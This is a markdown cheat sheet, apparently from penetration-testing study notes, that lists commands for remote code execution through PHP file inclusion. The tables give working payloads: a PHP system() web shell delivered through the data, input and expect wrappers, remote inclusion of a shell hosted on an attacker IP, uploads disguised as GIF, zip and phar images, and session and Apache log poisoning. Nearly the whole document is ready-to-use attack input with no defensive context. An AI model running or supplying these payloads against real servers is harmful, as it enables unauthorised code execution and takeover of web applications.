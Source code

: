 # Remote Code Execution

## Command	Description

### PHP Wrappers

| Command                                                                                  | Description                        |
|------------------------------------------------------------------------------------------|------------------------------------|
| `/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id` | RCE with data wrapper              |
| `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"` | RCE with input wrapper             |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"`                     | RCE with expect wrapper            |

### RFI

| Command                                                                                  | Description                        |
|------------------------------------------------------------------------------------------|------------------------------------|
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m http.server <LISTENING_PORT>` | Host web shell                     |
| `/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`                  | Include remote PHP web shell       |

### LFI + Upload

| Command                                                                                  | Description                        |
|------------------------------------------------------------------------------------------|------------------------------------|
| `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif`                                  | Create malicious image             |
| `/index.php?language=./profile_images/shell.gif&cmd=id`                                  | RCE with malicious uploaded image  |
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php`           | Create malicious zip archive 'as jpg' |
| `/index.php?language=zip://shell.zip%23shell.php&cmd=id`                                 | RCE with malicious uploaded zip    |
| `php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg`                      | Create malicious phar 'as jpg'     |
| `/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id`               | RCE with malicious uploaded phar   |

### Log Poisoning

| Command                                                                                  | Description                        |
|------------------------------------------------------------------------------------------|------------------------------------|
| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`              | Read PHP session parameters        |
| `/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E`           | Poison PHP session with web shell  |
| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id`       | RCE through poisoned PHP session   |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'`      | Poison server log                  |
| `/index.php?language=/var/log/apache2/access.log&cmd=id`                                 | RCE through poisoned PHP session   |
